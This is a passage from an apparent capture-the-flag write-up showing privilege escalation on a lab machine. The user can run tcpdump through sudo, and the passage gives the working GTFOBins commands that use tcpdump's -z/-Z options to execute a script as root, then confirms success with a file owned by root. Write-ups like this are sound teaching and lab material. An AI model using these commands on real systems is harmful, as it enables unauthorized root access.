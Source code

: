 james is able to run `tcpdump` as root:

```

james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump

```

### GTFOBins

#### POC

There’s a `tcpdump` page on [GTFObins](https://gtfobins.github.io/gtfobins/tcpdump/):

![image-20250126163435343](/img/image-20250126163435343.png)

When I run this, it doesn’t output anything showing successful execution:

```

james@strutted:~$ COMMAND='id'
james@strutted:~$ TF=$(mktemp)
james@strutted:~$ echo "$COMMAND" > $TF
james@strutted:~$ chmod +x $TF
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel

```

I’ll try a command that leaves something behind:

```

james@strutted:~$ COMMAND='touch /tmp/0xdf'
james@strutted:~$ TF=$(mktemp)
james@strutted:~$ echo "$COMMAND" > $TF
james@strutted:~$ chmod +x $TF
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes

Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
james@strutted:~$ ls -l /tmp/0xdf
-rw-r--r-- 1 root root 0 Jan 26 21:35 /tmp/0xd

```
